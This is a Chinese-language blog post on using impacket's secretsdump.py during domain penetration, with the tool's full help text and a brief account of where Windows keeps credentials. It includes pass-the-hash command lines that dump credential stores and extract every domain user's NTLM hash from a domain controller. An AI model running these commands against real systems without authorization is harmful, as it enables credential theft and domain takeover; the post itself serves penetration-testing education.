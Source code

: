 ```yaml
---
layout: post
title: Windows hash dump之secretsdump
date: 2019-07-16 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

在域渗透的时候经常使用impacket的secretsdump.py来获取域内主机甚至域控上的hash值，secretsdump可以通过多种方法获取{sam, secrets, cached and ntds}中保存的用户凭证。  
  
{:refdef: style="text-align: center;"}
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/stupid-hashdump.jpg?raw=true)
{: refdef}   





图片来源于http://blog.extremehacking.org/blog/2017/06/19/make-hashdump-module-work-windows-10-sam-mode/
今天并不讲secretsdump.py的实现方法，也许某天不忙的时候会分析一下其具体实现细节。今天主要借助secretsdump.py了解一下用户凭证在windows系统中是如何存储的。
本文的主要内容：  
1、secretsdump.py的使用  
2、用户凭证在windows系统如何存储

### \#0x00 secretsdump.py的使用:
直接查看帮助是便捷且有效的方法  

``` 
secretsdump.py -h:
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

usage: secretsdump.py [-h] [-debug] [-system SYSTEM] [-bootkey BOOTKEY]
                      [-security SECURITY] [-sam SAM] [-ntds NTDS]
                      [-resumefile RESUMEFILE] [-outputfile OUTPUTFILE]
                      [-use-vss] [-exec-method [{smbexec,wmiexec,mmcexec}]]
                      [-just-dc-user USERNAME] [-just-dc] [-just-dc-ntlm]
                      [-pwd-last-set] [-user-status] [-history]
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address]
                      [-target-ip ip address]
                      target

Performs various techniques to dump secrets from the remote machine without
executing any agent there.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
                        or LOCAL (if you want to parse local files)

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -system SYSTEM        SYSTEM hive to parse
  -bootkey BOOTKEY      bootkey for SYSTEM hive
  -security SECURITY    SECURITY hive to parse
  -sam SAM              SAM hive to parse
  -ntds NTDS            NTDS.DIT file to parse
  -resumefile RESUMEFILE
                        resume file name to resume NTDS.DIT session dump (only
                        available to DRSUAPI approach). This file will also be
                        used to keep updating the session's state
  -outputfile OUTPUTFILE
                        base output filename. Extensions will be added for
                        sam, secrets, cached and ntds
  -use-vss              Use the VSS method insead of default DRSUAPI
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec

display options:
  -just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach. Implies also
                        -just-dc switch
  -just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos
                        keys)
  -just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
  -pwd-last-set         Shows pwdLastSet attribute for each NTDS.DIT account.
                        Doesn't apply to -outputfile data
  -user-status          Display whether or not the user is disabled
  -history              Dump password history, and LSA secrets OldVal

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use
                        the domain part (FQDN) specified in the target
                        parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
```
基本使用方法：
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH 
```
secretsdump.py主要从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit三处获取用户凭证，唯一的一点是不能dump LSASS进程在内存中的数据。  
导出域控所有用户hash  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc-ntlm -outputfile tmp
```

### \#0x01 用户凭证在windows系统如何存储:
查看微软官方的说明
![用户凭证在windows系统中的存储情况](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/用户凭证在windows系统中的存储情况%20copy.png?raw=true) 

根据微软官网的介绍，用户凭证一般存储在SAM、LSA secrets、NTDS.DIT和LSASS进程的内存中，另外系统缓存中也有可能存在用户凭证，参见：  
[Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
[Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  


secretsdump可以从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit获取用户凭证，LSASS进程的内存数据通过[绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)获取。  


### 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
* [Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  
* [绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)